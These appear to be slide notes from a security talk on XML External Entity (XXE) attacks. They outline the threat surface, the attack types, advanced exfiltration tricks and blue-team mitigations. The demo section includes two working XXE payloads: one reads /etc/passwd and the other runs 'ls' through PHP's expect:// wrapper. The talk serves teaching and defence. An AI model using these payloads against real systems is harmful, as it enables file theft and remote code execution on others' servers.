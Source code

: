 Dissecting XXE Attacks - Tradecraft Security Weekly - Episode # 19

https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet
# Threat Surface
- XML is everywhere
- Object serialization
- Pre-authentication
- Pre-processing
- Hard to detect
- Beware of defaults
# Attack Overview
- Occurs in the XML parser
- May be blind
- Remote code execution
- Steal local files
- SSRF
- Denial of Service
# Advanced Techniques
- Rmeote DTD for exfil
- XXE databases directly
- Encode bypass w/ CDATA
- Base64/Compress w/ PHP
- ldap:// jar:// expect:// etc...
# XXE to RCE DEMO
- intercept request in burp
```
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE root
[<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=expect://ls">
]>
<root>
	<name></name>
	<tel></tel>
	<email>&xxe;</email>
	<password></password>
</root>
```
```
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE root
[<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
<root>
	<name></name>
	<tel></tel>
	<email>&xxe;</email>
	<password></password>
</root>
```
# For the Blue Team
- Know your parser
- Disable external entities
- Whitelist egress filtering on server



















